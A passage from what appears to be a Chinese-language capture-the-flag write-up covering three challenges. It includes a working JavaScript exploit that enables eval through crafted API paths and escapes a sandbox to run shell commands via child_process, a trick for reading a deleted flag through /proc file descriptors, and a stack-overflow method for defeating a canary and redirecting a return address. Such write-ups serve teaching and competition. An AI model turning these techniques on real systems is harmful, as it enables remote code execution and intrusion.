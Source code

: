 ```javascript
async function exec(command) {
    const agent = got.extend({ prefixUrl: remote, cookieJar: new CookieJar() })

    // enable eval
    await agent.get(`api/demo.json?in_path[0][0]=constructor/length&out_path[0][0]=constructor/prototype/activated`)
    await agent.get(`activate`)
    await agent.get(`eval_settings/?eval=on`)

    const vm_code = 'return this.constructor.constructor(`return this.require(unescape(\\`' + _escape('child_process') + '\\`)).execSync(unescape(\\`' + _escape(command) + '\\`)).toString()`)()'
    // escape % and + and new line
    await agent.get(`api/demo.json?in_path[0][0]=constructor/constructor/prototype/prototype/(${encode(vm_code).replace(/%/g, '%25').replace(/\+/g, '%2B').replace(/\n/g, '%0A')})`)
    // returns a very large object
    return (await agent.get(`api/demo.json?in_path[0][0]=constructor/constructor/prototype/prototype`)).body
}
```

题目还剩下一个点，即在 `getflag` 时 `unlink` 掉了 flag 文件从而无法直接通过 shell 读出，又在 `start_server` 中将已读取的 flag2 清除。但仔细观察可发现 `getflag` 函数并没有传统地直接以文件名为参数调用 `readFileSync`，而是通过 `openSync` 创建文件描述符后通过 fd 读取，且描述符始终没有被关闭。查看 /proc 下对应进程的 fd 即可发现仍然存在的管道，也仍然可从中读取到 flag2。

## 诡异的网关

根据第二阶段提示，发现保存账号密码后 config 文件有更新的更改时间。尽管打开类似乱码，但整体仍和提供的 config.xml 结构类似。观察即可发现，其中部分字符进行了对应基于 ascii 的 2n 与 2n+1 的对换（如 0x42 `b` 与 0x43 `c`，0x74 `<` 与 0x75 `=`）。有一个标签属性长得很像 flag，根据语义与 Leet code 手动对换一下得到 flag（应该是 flag 用户的密码）。

> 这题为什么算成 Binary 呢……还以为真得分析 exe（

## 字符串转义

分析源码可知，程序的主要工作即为顺序读取源码，若读到 `\` 且其后方字符不为空白符，则吞掉 `\` 只输出后方字符。题目涉及到读入 stdin，但缓冲区是动态申请的而避免了直接的缓冲区溢出。若输入长度不超过 128，则将输入拷贝到长度为 128 的 `ctx.input` 中，此处将导致 `ctx.input` 写满而将 `\0` 写入后方 `ctx.escaped`。而在文字处理过程中，两指针将从 `ctx.input` 和 `ctx.escaped` 开始读取和写入字符，在首次写入时即可能导致 `\0` 被覆盖从而处理超过 128 个字符。尝试输入 `a` * 128，的确导致读写溢出产生 SIGSEGV。又源码中有未调用的函数 `print_flag`，只需传入参数为 `./.flag` 即打印输出 flag，故思路明确：通过漏洞越界写覆盖栈内函数返回地址与存储的 $rbp，使 `work` 函数返回进入 `print_flag` 打印 flag。

checksec 该程序发现开启了 Canary，故覆盖返回地址前还需要读取 Canary。
注意到转移规则中的空白符并不包含 `\0`，从而若输入字符串后缀为长度为奇数的连续 `\` 串，则可在转义串中写入 `\0` 并向后跳转到输入串后方继续处理转义。基于此可以给出一种向任意位置写入字符串的方法：

- 若待写入位置位于 `ctx.escaped` 内，则直接使用非 `\` 字符 pad 后在输入串中拼接待写入字符串即可
- 若待写入位置位于 `ctx.escaped` 后，则可以使用若干（x 个）非 `\` 字符和若干(y 个) `\` pad 后在输入串中拼接待写入字符串，再根据具体写入位置拼接若干 `\\` 与一个 `\\0`，再拼接若干 (z 个，z 为奇数）`\`；其中的 x, y, z 可以通过解方程与约束得到
  - 举例如，希望向 `ctx.escaped` 后方写入 abcd，则输入字符串可为 `a`*41 `\` `abcdef` `\` `\0` `\`*77 `\0`，处理完 `ctx.input` 中内容时，`ctx.escaped` 内容将为 `a`*41 `abcdef` `\0` `\`*38 `\0`，此时 `from` 指针指向了 `ctx.escaped`，`to` 指针指向了 `ctx.escaped`+87，继续处理 `a`*41后 `from` 指针将指向 `abcdef`，而 `to` 指针指向 `ctx.escaped`+128，故可写入 `abcdef`。
  - 注意该方法需要写入一个 `\0`，实际上可以通过先写入 `\`*127 再写入前缀实现

